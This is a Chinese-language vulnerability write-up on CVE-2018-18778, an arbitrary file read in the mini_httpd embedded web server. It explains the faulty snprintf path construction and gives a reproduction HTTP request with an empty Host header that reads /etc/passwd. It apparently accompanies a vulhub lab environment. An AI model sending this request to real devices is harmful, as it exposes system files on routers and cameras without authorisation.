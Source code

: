 （CVE-2018-18778）Mini\_httpd 任意文件读取漏洞
==============================================

一、漏洞简介
------------

Mini\_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini\_httpd组件。

在mini\_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

    (void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );

见上述代码，分析如下：

-   当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
-   当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

二、漏洞影响
------------

三、复现过程
------------

发送请求是将Host置空，PATH的值是文件绝对路径：

    GET /etc/passwd HTTP/1.1
    Host: www.0-sec.org
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

成功读取文件：

![1.png](./.resource/(CVE-2018-18778)Mini_httpd任意文件读取漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/mini\_httpd/CVE-2018-18778/
